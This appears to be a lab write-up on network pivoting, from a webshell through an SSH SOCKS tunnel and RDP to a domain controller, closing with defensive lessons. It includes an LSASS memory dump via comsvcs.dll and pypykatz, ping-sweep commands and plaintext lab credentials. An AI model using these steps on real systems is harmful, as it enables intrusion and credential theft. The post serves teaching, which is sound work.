<!--
Tip: drop an image named `feature.png` (or feature.jpg/webp) in this post's
folder and it becomes the card thumbnail + hero automatically. See WRITING-POSTS.md.
-->
This is a walkthrough of a pivoting-focused assessment where the goal is to reach an internal Domain Controller that isn't directly reachable from our starting foothold. 

We'll go from an ```initial webshell 
→ SSH pivot 
→ RDP into a Windows host 
→ dumping credentials from memory 
→ pivoting again to the final targets.``` 



We start from a webshell, poking around we can see 2 files on webadmin's home directory an ssh key and a text file, and well I already want those on my kali to better take a look at them.
To get them on my machine I decided to try and run a python webserver and luckily python was installed.

```bash
python3 -m http.server #Port 8000 by default
```



Browsing over we can simply click around and download our 2 files


While this is not clear what is the IP of `server01` or whether it really exists with that name we can confirm that we will be jumping and pivoting around to get to our target. Most importantly now we got credentials `mlefay:Plain Human work!` , but we haven't seen any directory for `mlefay` on this machine so it's a hint that it's not on this machine.
Turning our attention to our next file which is the `id_rsa` and honestly it is not clear which user is this for exactly so it's just trial and error now, but for us to try we need to prepare the file like so:

```bash                 
cp id_rsa ~/.ssh/id_rsa 
sudo chmod 400 ~/.ssh/id_rsa 
```

The first command is putting `id_rsa` in our .ssh folder, which the ssh client reads to check if we have any ssh key it can use when we don't provide a password (which we won't because we don't know the password)

Second command just sets the permissions because when we downloaded it from the python web-server its original permissions were not downloaded with it.
400 means: Owner can read the file + No one else has access


not for administrator :(



but for `webadmin` :)


First thing that comes to mind is to try to read the bash history since now we have the required permissions to read it.
The bash history could give us any hint to what the user has been working on and if there is anything related to our next hop and its IP address.

```bash
webadmin@inlanefreight:~$ cat .bash_history 
SNIP
...
...
arp -a
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
ls
chmod +x backupjob 
./backupjob 
exit
./backupjob 
sudo apt install net-tools ifupdown iptables-persistent
...
...
SNIP

```

```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
Taking a closer look on the commands we see a ping sweep on a 172.16.5.0/24 network.


Digging into the interfaces we can see another interface with `ens192` with IP `172.16.5.15`. Now we know that our next jump would be on that subnet and this is the pivot host all along. We will use this machine as our foothold into the other subnet because it can reach both networks:
- The one we are connected via SSH.
- The internal one on `ens192`.

```bash
webadmin@inlanefreight:~$ for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.150 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=1.78 ms
```
Let us first re-run the ping command previously ran we can see that our own IP replied and we have 172.16.5.35 which is a Windows host from the `TTL`.

> I noticed that the script does not cover the entire /16 subnet, it just iterates for the 4th octet (172.16.5.$i) instead of the 3rd and 4th (172.16.$x.$i). But I guess this was intentional as there are no hosts that can be found other than what this scripts finds.

Now it's time to do some pivoting, since we have our ssh creds, we can establish a dynamic tunnel so we can RDP through our pivot host (10.129.99.68) through the other interface it has  `172.16.5.15` into the windows machine `172.16.5.35`.

We need a tunnel as we cannot download an RDP client on this machine and we might need our tools on kali later on. The tunnel allows us to forward our tools traffic through that tunnel to the other side (in this case it's 172.16.5.35).

Let's log out of our ssh session and start a new one with `-D` flag
```bash
 ssh -D 1080 webadmin@10.129.99.68
```

 Set our proxychains on our attack-host
```/etc/proxychains.conf
[ProxyList]
socks5  127.0.0.1 1080
```
Proxychains tells our tools like xfreerdp to enter the tunnel we just created. This means we created the tunnel with SSH, which actually created a SOCKS proxy on 1080. Then we edited the `proxychains.conf` to point to that proxy using its port. Socks5 is just the name of the protocol this port speaks so it's basically how proxychains talks to the proxy we opened.

Now from our Kali machine 
```bash
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:'Plain Human work!'
```



It took some research and trial and error to figure out what to do next, but I found a way to get more creds: LSASS.
LSASS is a Windows process that handles authentication for logged-in users, and those credentials are stored in its memory. If we find ourselves on a machine with admin rights, we can dump that memory to extract the credentials (often as cleartext or hashes) and reuse them to pivot further or escalate our privileges. 

After fighting with `lsassy` for a bit I decided this was unnecessary in this case because I noticed I can just dump it using `comsvcs.dll` and loading it with `rundll32.exe` because `mlefay` can run powershell as admin

```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_PID> C:\Windows\Temp\lsass.dmp full
```

```bash
pypykatz lsa minidump lsass.dmp
```




We found the next set of credentials we can use:`vfrank:Imply wet Unmasked!` 
Now we are back to enumeration, we have to find our next target for those credentials!



Checking out the interfaces again on this machine it is also connected directly to another subnet, this is good news we don't have to dig another tunnel we can RDP directly from this machine to the other target

```powershell
1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
```


Running a scan like this twice helped because the first run fills up the ARP cache and by the second time you will actually get a response as the OS knows the MAC address for that IP already instead of asking.


workstation flag


DC Flag


Ideas worth taking away beyond this lab:

1. A pivot host is just a machine that can see a network you can't. Every jump here worked because some host had an interface on both the segment we could reach and the one we wanted to reach
2. One compromised Linux host could see and reach the internal Windows subnet directly, basically an open door.
3. No single set of creds opened everything; each host we compromised gave us the creds for the next host.

where could this have been stopped?
- **Network segmentation.** This whole thing only worked because those hosts sat on two subnets at once. If the web server just couldn't talk to the internal Windows network, I'd have been stuck at the first box.
- **Plaintext creds.** Don't think i need to explain this one
- **Password reuse.** Something like LAPS gives every machine its own local admin password, even if i dump the LSASS the password would be different on the next host.
- **Limit RDP.** Whether policies or firewall rules.


Thanks for reading :)
